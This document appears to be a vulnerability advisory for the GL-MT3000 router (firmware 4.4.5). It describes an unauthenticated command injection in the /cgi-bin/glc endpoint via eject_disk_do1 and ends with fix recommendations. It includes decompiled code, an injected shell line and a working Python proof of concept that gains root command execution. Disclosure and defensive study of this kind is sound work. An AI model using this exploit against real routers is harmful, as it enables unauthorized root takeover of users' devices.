



Submission Date: 2026.5.11
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint of the affected product. The `glc` CGI binary loads shared object plugins from `/usr/lib/oui-httpd/rpc/` via `dlopen()` and dispatches any exported function via `dlsym()`, with no authentication or method allowlist. The `nas-web.so` plugin exports the internal helper function `eject_disk_do1`, which extracts the `dev_name` parameter from the JSON request body and passes it to `disk_remove_do()`. This function first validates the device name by constructing a path via `snprintf(path, 0x40, "/dev/%s", dev_name)` and checking `access()`, then constructs a shell command via `snprintf(cmd, 0x100, "echo \"#remove_dev:%s;\" > ...", dev_name)` and executes it via `system()`. Due to the buffer size mismatch (0x40 vs 0x100) and Linux path normalization of consecutive slashes, an attacker can craft a `dev_name` that passes the `access()` check (appearing as `/dev/null`) while the shell-injected payload in the remaining portion is executed via `/bin/sh -c`.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"nas-web", "method":"eject_disk_do1",
      "args":{"dev_name":"<padding>/null$(cmd>/tmp/out)"}}

  -> /www/cgi-bin/glc (AArch64 ELF, 8KB)
       json_loads(POST_body)
       json_unpack_ex(body, "{s:s,s:s,s?o}",
           "object", &object,    // "nas-web"
           "method", &method,    // "eject_disk_do1"
           "args",   &args)      // {"dev_name":"..."}
       // NO authentication check — directly loads plugin
       snprintf(path, 0x80, "%s/%s.so", "/usr/lib/oui-httpd/rpc", object)
       dlopen(path, RTLD_NOW)
       handler = dlsym(handle, method)
       handler(args, result)     // → eject_disk_do1(json_args, json_result)

  -> nas-web.so::eject_disk_do1 (0x5ff4)
       dev_name = jansson_json_get_string(args, "dev_name")
       disk_remove_do(dev_name)

  -> nas-web.so::disk_remove_do (0x5e6c)
       // Step 1: access() gate — buffer = 0x40 (64 bytes)
       snprintf(path, 0x40, "/dev/%s", dev_name)
       // Path truncated to 63 chars → /dev////...//null
       // Linux normalizes consecutive '/' → /dev/null
       access(path, F_OK)  // ✓ passes — /dev/null exists

       // Step 2: system() sink — buffer = 0x100 (256 bytes)
       snprintf(cmd, 0x100,
           "echo \"#remove_dev:%s;\" > /tmp/gl_nas/pipe_disk_add_remove >/dev/null &",
           dev_name)               // FULL dev_name — including $(cmd)!
       system(cmd)                 // /bin/sh -c → $() executes!
```

The `/www/cgi-bin/glc` entry point (AArch64 ELF) parses the POST body and loads plugins with no authentication:


```c
// glc main() — no auth, no method allowlist
json_unpack_ex(body, "{s:s,s:s,s?o}",
    "object", &object,   // → "nas-web"
    "method", &method,   // → "eject_disk_do1"
    "args",   &args);    // → {"dev_name":"..."}

snprintf(path, 0x80, "%s/%s.so", "/usr/lib/oui-httpd/rpc", object);
handle = dlopen(path, RTLD_NOW);        // load plugin
handler = dlsym(handle, method);        // resolve ANY exported symbol
handler(args, result);                  // call with JSON args
```

The `eject_disk_do1` function at offset 0x5ff4 in `nas-web.so` extracts the `dev_name` string and passes it directly to `disk_remove_do`:



```c
// nas-web.so::eject_disk_do1 (0x5ff4)
dev_name = jansson_json_get_string(args, "dev_name");   // 0x600c: blr jansson_get_string
if (dev_name == NULL)                                    // 0x6010: cbz x0
    log("Not find dev");
else
    disk_remove_do(dev_name);                            // 0x601c: blr disk_remove_do
```

The `disk_remove_do` function at offset 0x5e6c demonstrates the buffer size mismatch:



```c
// nas-web.so::disk_remove_do (0x5e6c)

// Gate: 0x40-byte path buffer — snprintf truncates dev_name to 58 usable chars
snprintf(path, 0x40, "/dev/%s", dev_name);              // 0x5ed8: 64-byte buffer

// Check: access() only sees the truncated prefix
if (access(path, F_OK) != 0) {                          // 0x5eec
    log("remove dev not exist, dev = %s\n", path);
    return 1;  // abort
}

// Sink: 0x100-byte command buffer — FULL dev_name reaches system()
snprintf(cmd, 0x100,                                    // 0x5f20: 256-byte buffer
    "echo \"#remove_dev:%s;\" > %s >/dev/null &",
    dev_name,
    "/tmp/gl_nas/pipe_disk_add_remove");
system(cmd);                                            // 0x5f6c: blr system
```

The root cause is a three-part bypass:

**1. Buffer size mismatch (0x40 vs 0x100):**

| Buffer | Size | Purpose | What it receives |
|--------|------|---------|-----------------|
| `path[]` | 0x40 (64) | `access()` check | truncated `dev_name` (max 58 chars) |
| `cmd[]` | 0x100 (256) | `system()` sink | **full** `dev_name` |

The `access()` gate uses a 64-byte buffer (`"/dev/"` = 5 bytes + 58 chars + NUL), while the `system()` command uses a 256-byte buffer. Payload bytes beyond position 58 bypass `access()` but reach `system()`.

**2. Linux path normalization:**

```text
Constructed: /dev/ + "/" × 54 + "null"
           = /dev///////////////////////////////////////////////////////null
Normalized:  /dev/null
```

The kernel normalizes consecutive slash characters to a single `/`. Since `/dev/null` exists on every Linux system, `access()` returns 0.

**3. `$()` executes inside double quotes:**

```sh
echo "#remove_dev://////...//null$(id>/tmp/poc);" > /tmp/gl_nas/pipe_disk_add_remove >/dev/null &
```

The `$()` construct is evaluated by `/bin/sh -c` even when enclosed in double quotes.

The exploitation is shown below.



```python
#!/usr/bin/env python3
import json
import urllib.request

base = "http://192.168.8.1"

# 58 bytes: only this part reaches access("/dev/%s")
prefix = "/" * 54 + "null"

# This suffix is outside the 0x40 access() buffer, but in the 0x100 system() buffer.
payload = "$(id>/tmp/nas_eject_poc)"
dev_name = prefix + payload

body = {
    "object": "nas-web",
    "method": "eject_disk_do1",
    "args": {
        "dev_name": dev_name
    }
}

req = urllib.request.Request(
    base + "/cgi-bin/glc",
    data=json.dumps(body).encode(),
    headers={"Content-Type": "application/json"},
    method="POST",
)

print("dev_name_len:", len(dev_name))
print("checked_path:", "/dev/" + dev_name[:58])
resp = urllib.request.urlopen(req, timeout=10).read().decode(errors="replace")
print(resp)
print("[+] check /tmp/nas_eject_poc on target")
```

Expected response: `0 {}`  
Expected proof: `/tmp/nas_eject_poc` containing `uid=0(root) gid=0(root)`

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | glc | Add authentication and method allowlist; block direct `dlsym()` of internal helpers |
| P0 | disk_remove_do | Replace `system()` with `open()` + `dprintf()` for pipe writing |
| P0 | disk_remove_do | Validate `dev_name` against block device name whitelist: `^(sd[a-z][0-9]*|hd[a-z][0-9]*|mmcblk[0-9]+p?[0-9]*)$` |
| P1 | disk_remove_do | Use the same buffer for both `access()` check and command construction |

